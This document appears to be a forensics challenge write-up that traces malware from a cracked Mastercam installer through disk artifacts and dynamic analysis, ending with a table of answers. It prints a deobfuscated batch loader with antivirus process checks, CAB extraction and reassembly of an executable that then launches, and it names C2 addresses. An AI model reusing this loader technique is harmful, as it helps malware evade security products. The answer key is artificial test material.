# CAMouflage

**Challenge scenario**: A newly launched campaign has been detected targeting multiple users utilizing cracked applications. We received an alert indicating unusual behavior from one of our user’s laptops and performed an initial triage. Your task is to conduct a deep dive investigation to determine the root cause and extent of the incident.

## Initial triage
The provided artifact was a copy of disk C of a compromised computer. In initial triage stage, I found nothing notable that can be seen at the beginning, so let's go for questions.

## Question 1
**Based on forensic artifacts, at what precise timestamp did the user first execute the Cracked App installer?**

As described in the scenario, user got compromised from utilizing a cracked application. Both `$J` and `$MFT` are provided, so I parsed them using `MFTECmd.exe` to a `csv` file and used `TimelineExplorer` to open it.

Command line used: `./MFTECmd.exe -f '.\$Extend\$J' -m '.\$MFT' --csv '.\output' --csvf usn_with_paths.csv`

Since user must have install some apps, I filter for `Parent Path contains Downloads` and `Extension contains exe` so find for any suspicious applications.



And here it is. The Cracked App installer mentioned in the question was `download mastercam x9 full crack pc.exe`. 

To find the exact timestamp that user executed this application, I used `Prefetch` artifact. Parsing with `PECmd.exe` revealed interesting things.

Command line used: `./PECmd.exe -f "DOWNLOAD MASTERCAM X9 FULL CR-C7EFFD46.pf"`



User ran this twice, but the first execution time was

```
Answer: 2025-06-21 18:34:19
```

## Question 2

**When did the installer process terminate?**

The most tricky one to me since I got lost in artifacts. At first, I thought I can use SRUM artifact to look for the application's duration time, the add it with its execution timstamp to answer when did the process terminate. But it is not that way.

The artifact I used to answer this question was `BAM` located in `SYSTEM` registry hive.

>BAM stands for Background Activity Moderator, which is a Windows's mechanism used to moderate activities of applications of users. BAM can be used to determine whether an executable was run, and even timestamp related to its latest activities of that process.
>
>Its registry location is often in ControlSet001\Services\bam\State\UserSettings\<SID> (When openning SYSTEM hive by RegistryExplorer).



And we got the timestamp, which is also the last moment when this appication ran.

```
Answer: 2025-06-21 18:36:52
```

## Question 3
**What was the first file dropped by the malware post-installation?**

Prefetch artifact that I parsed earlier was also shown files that this malware dropped during execution. 



Dropping files in `Temp` directory is a signiture move of malwares. To get what file was created first, I used the parsed `csv` file earlier (usn_with_paths.csv).

Since I knew that the execution time was from 18:34:19 to 18:36:52, I looked for those `.wp5` during this time.



So the first dropped file was `Mysql.wp5`.

```
Answer: Mysql.wp5
```

## Question 4
**What is the SHA-256 hash of the .cab archive extracted during execution?**

This question hint that one (or some) of dropped files are a cabinet. Using `file *` command to find out which one, and its hash either.



```
Answer: 35efc15a41cf54a51703711e0b117b1899e4698bed1a4fdae638ebb7a3a190e0
```

## Question 5
**What command did the malware use to extract content files from that .cab?**

In all files dropeed in Temp directory by malware, there is only Mysql.wp5 stood out, since it is ASCII text file, all others are data/binary.



Using cat command revealed an obfuscated Batch script.



So I used this script for deobfuscation:

```
import re
from pathlib import Path

inp = Path("Mysql.wp5")
out = Path("Mysql.decoded.bat")

text = inp.read_text(errors="ignore")
env = {}
decoded_lines = []

var_re = re.compile(r"%([^%]+)%")

def expand_vars(s, rounds=30):
    for _ in range(rounds):
        old = s
        s = var_re.sub(lambda m: env.get(m.group(1), m.group(0)), s)
        if s == old:
            break
    return s

for raw in text.splitlines():
    # decode line using known variables
    decoded = expand_vars(raw)
    decoded_lines.append(decoded)

    # collect SET assignments
    m = re.match(r"(?i)^\s*set\s+(.+?)=(.*)$", raw)
    if m:
        name_raw = m.group(1).strip()
        val_raw = m.group(2).strip()

        name = expand_vars(name_raw)
        val = expand_vars(val_raw)

        # handle set "x=y"
        if name.startswith('"'):
            name = name[1:]
        if val.endswith('"'):
            val = val[:-1]

        env[name] = val

out.write_text("\n".join(decoded_lines), encoding="utf-8", errors="ignore")

print(f"[+] written: {out}")
print("[+] interesting lines:")
for line in decoded_lines:
    low = line.lower()
    if any(x in low for x in [
        "tasklist", "findstr", "extrac32", "expand",
        "copy ", "start ", "choice", "ping", "cmd", "powershell"
    ]):
        print(line)
```

Output:

```
PS E:\htb\Sherlock\CAMouflage\2025-06-21T205150_output\C\Users\Administrator\AppData\Local\Temp> python a.py
[+] decoded written to: Mysql_decoded.bat
[+] interesting lines:
zQQQChoice(Partners(Larry(
Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=Moscow.com
tasklist | findstr /I "opssvc wrsa" & if not errorlevel 1 ping -n 192 127.0.0.1
tasklist | findstr "bdservicehost SophosHealth AvastUI AVGUI nsWscSvc ekrn" & if not errorlevel 1 Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=AutoIt3.exe & Set PWFtGNjfw=.a3x & Set yIpWXmEeJiPlXYAAmcMkIlfSPB=300
extrac32 /Y Play.wp5 *.*
set /p ="MZ" > %Wing%\Moscow.com <nul
findstr /V "Surplus" Balls >> %Wing%\Moscow.com
copy /b %Wing%\Moscow.com + Hell + Analyze + Theology + Thanksgiving + Subsequently + Mechanisms + Dawn + Draws + Appreciated + Investors %Wing%\Moscow.com
oudHCult Sleeping Action Actors Ia
copy /b ..\Runner.wp5 + ..\Art.wp5 + ..\Gba.wp5 + ..\Romania.wp5 + ..\Refugees.wp5 + ..\Authorization.wp5 + ..\Lock.wp5 K
start Moscow.com K
choice /d n /t 5
```

Let's dive deeper into each command.

```
Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=Moscow.com
```

This assign `Moscow.com` to a long variable name to call later.

```
tasklist | findstr /I "opssvc wrsa" & if not errorlevel 1 ping -n 192 127.0.0.1
```

This lists running processes using tasklist, then grep for `wrsa` (perhaps Webroot SecureAnywhere). If it was found, it runs `ping -n 192 127.0.0.1` times for sleep action, which is an AV execution.

```
tasklist | findstr "bdservicehost SophosHealth AvastUI AVGUI nsWscSvc ekrn" & if not errorlevel 1 Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=AutoIt3.exe & Set PWFtGNjfw=.a3x & Set yIpWXmEeJiPlXYAAmcMkIlfSPB=300
```

This checks for 6 AntiVirus security strings. If at least one of this was found, it changes its behavior as follow. Instead of using its fake name `Moscow.com`, it uses its original name which is `AutoIt3.exe`.

```
extrac32 /Y Play.wp5 *.*
```

This command is used to extract CAB file using a Windows built-in tool named `extrac32`. Another prove show that `extrac32` was used is Prefetch file.



```
set /p ="MZ" > %Wing%\Moscow.com <nul
```

This creates `Moscow.com` and add the first two bytes id `MZ`, which turns this file into an executable.

```
copy /b %Wing%\Moscow.com + Hell + Analyze + Theology + Thanksgiving + Subsequently + Mechanisms + Dawn + Draws + Appreciated + Investors %Wing%\Moscow.com
```

This combines all binary files such as `Theology`, `Thanksgiving`, `Analyze` to form a complete `Moscow.com` executable file.

```
copy /b ..\Runner.wp5 + ..\Art.wp5 + ..\Gba.wp5 + ..\Romania.wp5 + ..\Refugees.wp5 + ..\Authorization.wp5 + ..\Lock.wp5 K
```

This combines mentioned file into a file named `K` which will be loaded by `Moscow.com`.

```
start Moscow.com K
```

Simply malware execution.

In summary, it sets a default process named `Moscow.com` in `Temp` directory, check for some AntiVirus using `tasklist` command. Extract the Cabinet using `extrac32`, create `Moscow.com` and `K` file by combining binary files and run this payload.

So we have the answer for question 5

```
Answer: extrac32 /Y Play.wp5 *.*
```

## Question 6
**During execution, the malware performed AV/EDR checks. How many security product-related strings did it search for in memory or processes?**

As explain in the previous question, it checks for 6 AV strings using this command: `tasklist | findstr "bdservicehost SophosHealth AvastUI AVGUI nsWscSvc ekrn"`

```
Answer: 6
```

## Question 7
**After the batch file was executed, what was the name of the process that ran?**

The running process was `Moscow.com`, it executed the payload `K`.

```
Answer: Moscow.com
```

## Question 8
**What is the original name for that process?**

Although we can guess its original name by the command `Set oAPkKvaBlQaxyRaxdUooCTLzBRRQfXVtixj=AutoIt3.exe & Set PWFtGNjfw=.a3x & Set yIpWXmEeJiPlXYAAmcMkIlfSPB=300`, `exiftool` is also another trustworthy tool.



```
Answer: AutoIt3.exe
```

## Question 9:
**What is the SHA-256 hash of the file loaded by the above identified process?**

The file loaded by `Moscow.com` is `K`. The malware used this command `copy /b ..\Runner.wp5 + ..\Art.wp5 + ..\Gba.wp5 + ..\Romania.wp5 + ..\Refugees.wp5 + ..\Authorization.wp5 + ..\Lock.wp5 K` to create `K` , so we will just do the similar thing.



```
Answer: 2b3d1561b9ae7fa2bd3f09dee28a327b5647a908113945cd2a943134822d18d0
```

## Question 10:
**What is the C2 Domain name address contacted by the malware?**

Here I used dynamic analysis, by using `Promon` combine with `Wireshark` to determine what C2 server that this malware trying to connect to, and map it to get the Domain name.

First, I executed the malware `Moscow.com` along with payload `K` in my Virtual Machine, and used Process Monitor to follow its behavior.



Filters I applied. This malware connected to 2 suspicious endpoints which is `40.91.108.115` and `150.171.110.104`



But it does not show the Domain name, that's why I need to combine it with Wireshark. Knowing 2 IP address that this malware connected to for C2 control, I filter for `ip.addr == 40.91.108.115 or ip.addr == 150.171.110.104` in Wireshark. And those two domain name are here.



The answer for this question was

```
Answer: crowfza.xyz
```



## Attack chain
1. User download a Cracked Application, executed it and the malware was run at this point.
2. Malware dropped malicious `.wp5` files in `Temp` directory, extract a Cabinet using `extrac32`.
3. Joint binary files to form another malware and its payload, which is `Moscow.com` and `K` respectively.
4. Connected to C2 server at 40.91.108.115, C2 Domain name was crowfza.xyz

## Questions and Answer

| Task | Question | Answer |
|---:|---|---|
| 1 | Precise timestamp when the user first executed the cracked app installer | `2025-06-21 18:34:19` |
| 2 | Timestamp when the installer process terminated | `2025-06-21 18:36:52` |
| 3 | First file dropped by the malware post-installation | `Mysql.wp5` |
| 4 | SHA-256 hash of the CAB archive extracted during execution | `35efc15a41cf54a51703711e0b117b1899e4698bed1a4fdae638ebb7a3a190e0` |
| 5 | Command used to extract content from the CAB file | `extrac32 /Y Play.wp5 *.*` |
| 6 | Number of AV/EDR product-related strings searched for | `6` |
| 7 | Process name that ran after the batch file executed | `MOSCOW.COM` |
| 8 | Original name for that process | `AutoIt3.exe` |
| 9 | SHA-256 hash of the file loaded by that process | `2b3d1561b9ae7fa2bd3f09dee28a327b5647a908113945cd2a943134822d18d0` |
| 10 | C2 domain contacted by the malware | `crowfza.xyz` |